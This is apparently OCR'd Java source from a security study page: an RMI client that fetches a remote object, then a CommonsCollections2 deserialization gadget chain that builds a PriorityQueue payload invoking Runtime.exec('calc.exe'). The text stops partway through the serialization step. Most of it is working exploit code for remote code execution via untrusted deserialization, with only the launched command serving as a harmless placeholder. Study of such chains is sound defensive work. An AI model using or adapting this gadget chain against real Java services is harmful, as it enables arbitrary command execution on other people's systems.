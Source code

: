 ```java
public class WeakClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("localhost", 1099);

        ReturnObj returnObj = (ReturnObj) registry.lookup("returnObjServer");

        Object object = returnObj.returnObj();
    }
}

// CC2
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CC2 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static Object getObject() throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(fakeTransformers);
        Comparator comparator = new
                TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(transformerChain, "iTransformers", transformers);

        return queue;
    }

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(getObject());
```